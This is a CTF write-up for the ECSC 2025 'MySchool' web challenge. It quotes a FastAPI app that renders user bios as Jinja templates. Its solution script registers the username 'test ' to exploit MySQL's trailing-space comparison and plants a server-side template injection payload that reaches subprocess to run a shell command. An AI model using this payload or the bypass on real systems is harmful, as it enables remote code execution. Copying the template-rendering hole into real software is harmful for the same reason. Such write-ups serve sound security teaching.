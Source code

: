 # MySchool

> Old school web.
>
> [https://myschool.ecsc25.hack.cert.pl/](https://myschool.ecsc25.hack.cert.pl/)
>
> **app.py**
> ```py
> import uuid
> 
> import uvicorn
> from dataclasses import dataclass
> from typing import Optional
> from fastapi import Response, Request, FastAPI, HTTPException
> from jinja2 import Template
> import mysql.connector
> 
> 
> cnx_pool = mysql.connector.pooling.MySQLConnectionPool(
>     host="mysql",
>     port=3306,
>     user="user",
>     password="user",
>     database="db",
>     pool_size=32,
>     pool_name="pool",
>     use_pure=True,
> )
> 
> 
> @dataclass
> class User:
>     username: Optional[str] = uuid.uuid4()
>     bio: Optional[str] = "default bio"
> 
> 
> app = FastAPI()
> 
> 
> @app.middleware("http")
> async def get_db_connection(request: Request, call_next):
>     response = Response("Internal server error", status_code=500)
>     request.state.db = cnx_pool.get_connection()
>     try:
>         response = await call_next(request)
>     finally:
>         request.state.db.close()
>     return response
> 
> 
> @app.post("/users/")
> def create_user(request: Request, user: User):
>     if user.username != "test":
>         cursor = request.state.db.cursor()
>         session_id = uuid.uuid4()
>         cursor.execute(
>             "insert into users (username, bio,session_id) values (%s,%s,%s)",
>             [user.username, user.bio, str(session_id)],
>         )
>         request.state.db.commit()
>         return session_id
>     else:
>         raise HTTPException(status_code=403, detail="Can't modify the test user!")
> 
> 
> @app.get("/users/")
> def get_users(request: Request, session_id: Optional[str] = None):
>     cursor = request.state.db.cursor()
>     query = "select username, bio, (username='test') as matched from users where (session_id is NULL or session_id=%s)"
>     cursor.execute(query, [session_id])
>     found = [
>         f"Welcome {username}, {bio}!"
>         for (username, bio, matched) in cursor
>         if matched != False
>     ]
>     return Template("\n".join(found)).render()
> 
> 
> @app.get("/")
> def index():
>     return "You can't connect to this API with your browser. Check the source code."
> 
> 
> if __name__ == "__main__":
>     uvicorn.run(app)
>
> ```
>
> **schema.sql**
>
> ```sql
> DROP TABLE IF EXISTS `users`;
> 
> CREATE TABLE `users` (
>   `id` int(9) unsigned NOT NULL AUTO_INCREMENT,
>   `username` varchar(100),
>   `bio` varchar(255),
>   `session_id` varchar(100),
>   PRIMARY KEY (`id`)
> ) ENGINE=InnoDB AUTO_INCREMENT=3 DEFAULT CHARSET=ASCII;
> 
> INSERT INTO `users` (`id`, `username`, `bio`) VALUES (1, 'test', 'test bio');
> ```

## Solution
For some reason MySQL discards trailing spaces when comparing strings. The solution is to create a user called `'test '` (with a space at the end) and some Jinja expression to perform SSTI and read the flag.

```py
import requests

resp = requests.post('https://myschool.ecsc25.hack.cert.pl/users', json={"username": "test ", "bio": "{{ ''.__class__.mro()[1].__subclasses__()[271]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip() }}"})
sid = resp.text[1:-1]
resp = requests.get(f'https://myschool.ecsc25.hack.cert.pl/users?session_id={sid}')
print(resp.text)
```

## Flag
`ecsc25{NULL_is_not_always_False}`
